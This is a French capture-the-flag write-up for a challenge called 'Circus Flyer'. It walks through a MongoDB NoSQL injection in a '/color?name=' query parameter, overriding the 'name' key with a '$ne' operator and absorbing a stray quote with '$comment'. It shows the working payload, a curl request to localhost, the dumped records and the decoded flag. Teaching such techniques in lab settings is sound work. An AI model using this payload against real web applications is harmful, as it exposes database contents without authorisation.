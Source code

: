# Circus Flyer

## Write-up

En visitant le site, on remarque des boutons permettant de changer les couleurs de la page.

En regardant le code source, on remarque qu'une requête est faite au serveur pour récupérer les couleurs, et on peut voir qu'un objet est retourné.

```json
{
    "_id": "66aaa2488bebc41cd65f143b",
    "name": "circus-red",
    "hex": "#FF4500"
}
```

La clé `_id` fait penser à MongoDB, on peut donc essayer de faire une injection.

On voit que la requête est au format `/color?name=...` et que le code en JavaScript s'attend à recevoir un tableau.

On pourrait donc imaginer un filtre pour récupérer toutes les couleurs :

```sh
# /color?name={"$ne":null}
/color?name=%7B"ne":null%7D
```

Sauf que cela nous donne une erreur. En analysant les données que l'on envoie, on remarque que l'on envoie une chaîne de caractères, ce qui suggère que le serveur ajoute des guillemets autour de notre chaîne.

Le serveur construit donc un filtre ayant le format suivant :

```
{ "name": "$notre_filtre" }
```

Comme on construit un objet, il est possible d'écraser une clé en envoyant un objet avec la même clé.

Nous aurions donc ceci :

```sh
# /color?name=","name":"{"$ne":null}"
# /color?name=","name":%7B"$ne":null%7D
{  "name": "", "name": { "$ne": null }" }
```

Le problème est qu'il nous reste un guillemet à fermer. Il nous faudrait un champ simple qu'on peut ajouter qui ne dénaturerait pas la requête.

Pour cela, on peut chercher dans la [liste des opérations supportées](https://www.mongodb.com/docs/manual/reference/operator/query/) par MongoDB pour une requête.

On trouve "$comment" qui n'a aucun effet sur la requête, nous l'utilisons pour "consommer" le guillemet fermant.

```sh 
# /color?name=","name":"{"$ne":null}","$comment":""
# /color?name=","name":%7B"$ne":null%7D,"$comment":"
{ "name": "", "name": { "$ne": null }, "$comment": "" }
```

On peut donc récupérer toutes les couleurs en envoyant cette requête :

```sh
$ curl 'http://localhost:3000/color?name=","name":%7B"$ne":null%7D,"$comment":"' | jq
```

Résultat:

```json
[
  {
    "_id": "66aaa2488bebc41cd65f143b",
    "name": "circus-red",
    "hex": "#FF4500"
  },
  {
    "_id": "66aaa2488bebc41cd65f143c",
    "name": "clown-nose-red",
    "hex": "#DC143C"
  },
  {
    "_id": "66aaa2488bebc41cd65f143d",
    "name": "tent-yellow",
    "hex": "#FFD700"
  },
  {
    "_id": "66aaa2488bebc41cd65f143e",
    "name": "ringmaster-blue",
    "hex": "#1E90FF"
  },
  {
    "_id": "66aaa2488bebc41cd65f143f",
    "name": "acrobatic-purple",
    "hex": "#8A2BE2"
  },
  {
    "_id": "66aaa2488bebc41cd65f1440",
    "name": "performer-pink",
    "hex": "#FF69B4"
  },
  {
    "_id": "66aaa2488bebc41cd65f1441",
    "name": "elephant-gray",
    "hex": "#A9A9A9"
  },
  {
    "_id": "66aaa2488bebc41cd65f1442",
    "name": "lion-mane-orange",
    "hex": "#FFA500"
  },
  {
    "_id": "66aaa2488bebc41cd65f1443",
    "name": "juggler-green",
    "hex": "#32CD32"
  },
  {
    "_id": "66aaa2488bebc41cd65f1444",
    "name": "tightrope-turquoise",
    "hex": "#40E0D0"
  },
  {
    "_id": "66aaa2488bebc41cd65f1445",
    "name": "LgpPkEpSo3",
    "hex": "synt-zbatbvffbzntvp"
  }
]
```

On remarque `synt-...` dans un hex, ce qui est un rot-13. On peut donc le décoder et retrouver le flag.

## Flag

`flag-mongoissomagic`

